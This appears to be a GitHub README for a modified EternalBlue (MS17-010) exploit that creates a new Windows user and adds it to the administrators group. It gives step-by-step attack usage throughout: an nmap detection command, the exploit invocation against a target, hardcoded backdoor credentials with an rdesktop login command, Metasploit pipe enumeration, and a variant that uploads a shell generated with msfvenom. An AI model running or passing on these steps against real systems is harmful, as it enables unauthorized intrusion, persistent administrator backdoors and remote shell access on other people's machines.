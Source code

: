 # EternalBlue
I have done some changes to the https://raw.githubusercontent.com/worawit/MS17-010/master/zzz_exploit.py developed by sleepya. This script create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

## eternalblue_user_create.py

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop
```
 user    : John
 password: fadf24as
```

rdesktop -u John -p fadf24as <target_ip>

### How to find the pipe

msfconsole
```
#use auxiliary/scanner/smb/pipe_auditor
#set rhosts <target_ip>
#run
```

Result
```
Pipes: \netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \ntsvcs, \router, \scerpc, \srvsvc, \tapsrv, \wkssvc
```

## eternalblue_shell_upload.py

replace /root/Desktop/shell.exe with your local shell path.

shell script can be create using msfvenom
